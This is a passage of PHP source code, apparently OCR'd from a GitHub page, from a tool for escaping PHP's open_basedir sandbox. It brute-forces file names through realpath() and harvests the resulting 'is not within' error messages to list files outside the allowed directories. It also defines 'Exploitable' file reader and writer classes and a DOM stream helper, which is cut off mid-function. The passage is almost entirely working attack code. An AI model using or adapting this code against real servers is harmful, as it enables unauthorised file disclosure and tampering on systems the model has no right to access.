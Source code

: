 ```php
		}
		return $number_set;
	}
	function searchFile($number_set) {
		$file_name = 'a';
		foreach ($number_set as $key => $value) {
			$file_name[$key] = $this->characters[$value];
		}
		// normal files
		realpath($this->getCurrentPath() . $file_name);
		// files with preceeding dot
		realpath($this->getCurrentPath() . '.' . $file_name);
		// files with extension
		foreach ($this->extension as $extension) {
			realpath($this->getCurrentPath() . $file_name . $extension);
		}
	}
	function handler($errno, $errstr, $errfile, $errline) {
		$regexp = '/File\((.*)\) is not within/';
		preg_match($regexp, $errstr, $matches);
		if (isset($matches[1])) {
			$this->fileList[] = $matches[1];
		}

	}
}

abstract class FileWriter implements Exploitable {
	var $filePath;

	function isAvailable() {}
	function getDescription() {}
	function write($content) {}
	function setFilePath($filePath) {
		$this->filePath = $filePath;
	}
	function getFilePath() {
		return $this->filePath;
	}
}

abstract class FileReader implements Exploitable {
	var $filePath;

	function isAvailable() {}
	function getDescription() {}
	function read() {}
	function setFilePath($filePath) {
		$this->filePath = $filePath;
	}
	function getFilePath() {
		return $this->filePath;
	}
}

// Assistant class for DOMFileWriter & DOMFileReader
class StreamExploiter {
	var $mode, $filePath, $fileContent;

	function stream_close() {
		$doc = new DOMDocument;
		$doc->strictErrorChecking = false;
		switch ($this->mode) {
```